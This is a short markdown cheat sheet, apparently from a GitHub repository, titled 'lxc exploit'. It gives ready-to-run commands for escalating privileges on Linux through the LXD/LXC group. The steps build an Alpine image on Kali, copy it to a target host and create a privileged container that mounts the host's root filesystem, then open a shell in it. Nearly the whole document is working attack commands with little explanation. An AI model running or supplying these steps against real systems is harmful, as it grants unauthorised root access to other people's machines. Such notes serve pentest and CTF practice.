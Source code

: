 # **lxc exploit**

**kali linux**

Create an image. The result is a .tar file containing image, which should be tranferred to the target
```
git clone https://github.com/saghul/lxd-alpine-builder
cd lxd-alpine-builder
./build-alpine  
scp alpine.tar.gz bob@target:
```
I couldn't get it work with '-a i686', where i686 is the arhitecture
Set the appropriate arch if needed.


**target system**

```

lxc image import alpine.tar.gz --alias alpine
lxc image list
lxc init alpine privesc -c security.privileged=true
lxc list
lxc config device add privesc host-root disk source=/ path=/mnt/root/
lxc start privesc
lxc exec privesc /bin/sh
```

NOTE: the root folder is now in /mnt/root/

/tmp on host becomes /mnt/root/tmp

etc.
